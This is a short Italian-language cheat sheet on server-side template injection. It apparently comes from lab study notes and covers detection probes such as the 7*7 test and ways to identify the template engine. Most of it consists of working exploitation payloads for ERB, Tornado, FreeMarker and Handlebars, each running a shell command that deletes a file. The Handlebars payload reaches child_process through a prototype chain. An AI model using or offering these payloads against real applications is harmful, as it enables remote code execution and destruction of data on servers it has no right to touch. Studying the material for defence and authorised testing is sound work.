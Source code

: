 # Caratteri di verifica:
```
${{<%[%'"}}%\
```

# Detection
* Usare i simboli base per vedere se qualcuno causa qualche effetto indisiderato (come rendere invisibile una parte di testo);
* Inserire fra l'apertura e la chiusura 7*7. Se viene stampato 49 allora è responsive e vulnerabile;

# Identification
* Causare uno stacktrace per leggere il nome del template engine usato;
* Trovare qualche informazione nel codice sorgente.

# Exploitation
(ricordati di codificare i payload in URL syntax)
## ERB
```
<%= system("rm /path/to/file.txt") %>
```

## Tornado
```
{% import os %}
{{os.system('rm /path/to/file.txt')
```

## FreeMarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /path/to/file.txt") }
```

## Handlebars
```
Ciao, funziona!{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

